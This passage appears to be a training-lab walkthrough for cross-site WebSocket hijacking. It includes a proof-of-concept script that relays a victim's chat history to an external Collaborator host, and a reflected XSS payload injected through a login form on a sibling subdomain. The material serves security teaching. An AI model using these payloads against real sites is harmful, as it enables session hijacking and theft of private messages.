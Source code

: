     Notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSWSH if you can bypass any SameSite cookie restrictions.

    In the browser, refresh the live chat page.

    In Burp, go to the Proxy > WebSockets history tab. Notice that when you refresh the page, the browser sends a READY message to the server. This causes the server to respond with the entire chat history.

Confirm the CSWSH vulnerability

    In Burp, go to the Collaborator tab and click Copy to clipboard. A new Collaborator payload is saved to your clipboard.

    In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept:
    <script>
        var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
        ws.onopen = function() {
            ws.send("READY");
        };
        ws.onmessage = function(event) {
            fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
        };
    </script>

    Store and view the exploit yourself

    In Burp, go back to the Collaborator tab and click Poll now. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.

    Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand new session, which isn't particularly useful.

    Go to the Proxy > HTTP history tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent GET /chat request.

    Notice that your session cookie was not sent with the request.

    In the response, notice that the website explicitly specifies SameSite=Strict when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

Identify an additional vulnerability in the same "site"

    In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an Access-Control-Allow-Origin header, which reveals a sibling domain at cms-YOUR-LAB-ID.web-security-academy.net.

    In the browser, visit this new URL to discover an additional login form.

    Submit some arbitrary login credentials and observe that the username is reflected in the response in the Invalid username message.

    Try injecting an XSS payload via the username parameter, for example:
    <script>alert(1)</script>

    Observe that the alert(1) is called, confirming that this is a viable reflected XSS vector.
